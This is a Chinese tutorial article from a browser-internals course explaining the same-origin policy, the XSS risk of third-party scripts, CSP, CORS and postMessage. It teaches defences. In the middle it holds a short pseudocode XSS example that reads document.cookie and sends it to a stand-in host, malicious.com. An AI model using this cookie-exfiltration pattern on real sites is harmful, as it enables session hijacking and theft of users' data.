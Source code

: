 <audio title="32 _ 同源策略：为什么XMLHttpRequest不能跨域请求资源？" src="https://static001.geekbang.org/resource/audio/ad/5a/ad6bcea8db1937b21a5182c6a53f415a.mp3" controls="controls"></audio> 
<p>通过前面6个模块的介绍，我们已经大致知道浏览器是怎么工作的了，也了解这种工作方式对前端产生了什么样的影响。在这个过程中，我们还穿插介绍了一些浏览器安全相关的内容，不过都比较散，所以最后的5篇文章，我们就来系统地介绍下浏览器安全相关的内容。</p><p>浏览器安全可以分为三大块——<strong>Web页面安全、浏览器网络安全</strong>和<strong>浏览器系统安全</strong>，所以本模块我们就按照这个思路来做介绍。鉴于页面安全的重要性，我们会用三篇文章来介绍该部分的知识；网络安全和系统安全则分别用一篇来介绍。</p><p>今天我们就先来分析页面中的安全策略，不过在开始之前，我们先来做个假设，如果页面中没有安全策略的话，Web世界会是什么样子的呢？</p><p>Web世界会是开放的，任何资源都可以接入其中，我们的网站可以加载并执行别人网站的脚本文件、图片、音频/视频等资源，甚至可以下载其他站点的可执行文件。</p><p>Web世界是开放的，这很符合Web理念。但如果Web世界是绝对自由的，那么页面行为将没有任何限制，这会造成无序或者混沌的局面，出现很多不可控的问题。</p><p>比如你打开了一个银行站点，然后又一不小心打开了一个恶意站点，如果没有安全措施，恶意站点就可以做很多事情：</p><ul>
<li>修改银行站点的DOM、CSSOM等信息；</li>
<li>在银行站点内部插入JavaScript脚本；</li>
<li>劫持用户登录的用户名和密码；</li>
<li>读取银行站点的Cookie、IndexDB等数据；</li>
<li>甚至还可以将这些信息上传至自己的服务器，这样就可以在你不知情的情况下伪造一些转账请求等信息。</li>
</ul><!-- [[[read_end]]] --><p>所以说，<strong>在没有安全保障的Web世界中，我们是没有隐私的，因此需要安全策略来保障我们的隐私和数据的安全</strong>。</p><p>这就引出了页面中最基础、最核心的安全策略：<strong>同源策略（Same-origin policy）</strong>。</p><h2>什么是同源策略</h2><p>要了解什么是同源策略，我们得先来看看什么是同源。</p><p><strong>如果两个URL的协议、域名和端口都相同，我们就称这两个URL同源</strong>。比如下面这两个URL，它们具有相同的协议HTTPS、相同的域名time.geekbang.org，以及相同的端口443，所以我们就说这两个URL是同源的。</p><pre><code>https://time.geekbang.org/?category=1
https://time.geekbang.org/?category=0
</code></pre><p>浏览器默认两个相同的源之间是可以相互访问资源和操作DOM的。两个不同的源之间若想要相互访问资源或者操作DOM，那么会有一套基础的安全策略的制约，我们把这称为同源策略。</p><p>具体来讲，同源策略主要表现在DOM、Web数据和网络这三个层面。</p><p><strong>第一个，DOM层面</strong>。同源策略限制了来自不同源的JavaScript脚本对当前DOM对象读和写的操作。</p><p>这里我们还是拿极客时间的官网做例子，打开极客时间的官网，然后再从官网中打开另外一个专栏页面，如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/c9/d7/c9294ee10c571c8b7061a5c8f03b6cd7.png?wh=1142*526" alt=""></p><center><span class="reference">通过极客时间官网打开一个专栏页面</span></center><p>由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的DOM，比如将第一个页面全部隐藏掉，代码如下所示：</p><pre><code>{
let pdom = opener.document
pdom.body.style.display = &quot;none&quot;
}
</code></pre><p>该代码中，对象opener就是指向第一个页面的window对象，我们可以通过操作opener来控制第一个页面中的DOM。</p><p>我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的DOM，将页面隐藏了，如下图：</p><p><img src="https://static001.geekbang.org/resource/image/2a/25/2a988d3d2f82aa4230f2b5025134b125.png?wh=1142*528" alt=""></p><center><span class="reference">通过第二个页面操纵第一个页面的DOM</span></center><p>不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作DOM了。比如从极客时间官网打开InfoQ的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：</p><p><img src="https://static001.geekbang.org/resource/image/71/b5/711d96a58f670bda0d9b9608165839b5.png?wh=1142*539" alt=""></p><center><span class="reference">不同源的两个页面不能相互操纵DOM</span></center><p>从图中可以看出，当我们在InfoQ的页面中访问极客时间页面中的DOM时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。</p><pre><code>Blocked a frame with origin &quot;https://www.infoq.cn&quot; from accessing a cross-origin frame.
</code></pre><p><strong>第二个，数据层面</strong>。同源策略限制了不同源的站点读取当前站点的Cookie、IndexDB、LocalStorage等数据。由于同源策略，我们依然无法通过第二个页面的opener来访问第一个页面中的Cookie、IndexDB或者LocalStorage等内容。你可以自己试一下，这里我们就不做演示了。</p><p><strong>第三个，网络层面</strong>。同源策略限制了通过XMLHttpRequest等方式将站点的数据发送给不同源的站点。你还记得在<a href="https://time.geekbang.org/column/article/135127">《17 | WebAPI：XMLHttpRequest是怎么实现的？》</a>这篇文章的末尾分析的XMLHttpRequest在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。</p><h2>安全和便利性的权衡</h2><p>我们了解了同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得Web项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是XSS攻击和CSRF攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。</p><h3>1. 页面中可以嵌入第三方资源</h3><p>我们在文章开头提到过，Web世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有HTML文件、JavaScript文件、CSS文件、图片等资源都部署在同一台服务器上，这无疑违背了Web的初衷，也带来了诸多限制。比如将不同的资源部署到不同的CDN上时，CDN上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。</p><p>所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往HTML文件中插入恶意脚本。</p><p>比如，恶意程序在HTML文件内容中插入如下一段JavaScript代码：</p><p><img src="https://static001.geekbang.org/resource/image/74/de/741dc2c53217aee177d18375a7aa94de.png?wh=834*338" alt=""></p><p>当这段HTML文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。</p><p>除此之外，它还能将页面的的敏感数据，如Cookie、IndexDB、LoacalStorage等数据通过XSS的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意JavaScript代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：</p><pre><code>function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
</code></pre><p>在这段代码中，恶意脚本读取Cookie数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的Cookie信息。</p><p>以上就是一个非常典型的XSS攻击。为了解决XSS攻击，浏览器中引入了内容安全策略，称为CSP。<strong>CSP的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联JavaScript代码</strong>。通过这些手段就可以大大减少XSS攻击。</p><h3>2. 跨域资源共享和跨文档消息机制</h3><p>默认情况下，如果打开极客邦的官网页面，在官网页面中通过XMLHttpRequest或者Fetch来请求InfoQ中的资源，这时同源策略会阻止其向InfoQ发出请求，这样会大大制约我们的生产力。</p><p>为了解决这个问题，我们引入了<strong>跨域资源共享（CORS）</strong>，使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。</p><p>在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵DOM。不过在实际应用中，经常需要两个不同源的DOM之间进行通信，于是浏览器中又引入了<strong>跨文档消息机制</strong>，可以通过window.postMessage的JavaScript接口来和不同源的DOM进行通信。</p><h2>总结</h2><p>好了，今天就介绍到这里，下面我来总结下本文的主要内容。</p><p>同源策略会隔离不同源的DOM、页面数据和网络通信，进而实现Web页面的安全性。</p><p>不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：</p><ol>
<li>页面中可以引用第三方资源，不过这也暴露了很多诸如XSS的安全问题，因此又在这种开放的基础之上引入了CSP来限制其自由程度。</li>
<li>使用XMLHttpRequest和Fetch都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。</li>
<li>两个不同源的DOM是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。</li>
</ol><h2>思考时间</h2><p>今天留给你的作业：你来总结一下同源策略、CSP和CORS之间的关系，这对于你理解浏览器的安全策略至关重要。</p><p>欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。</p><p></p>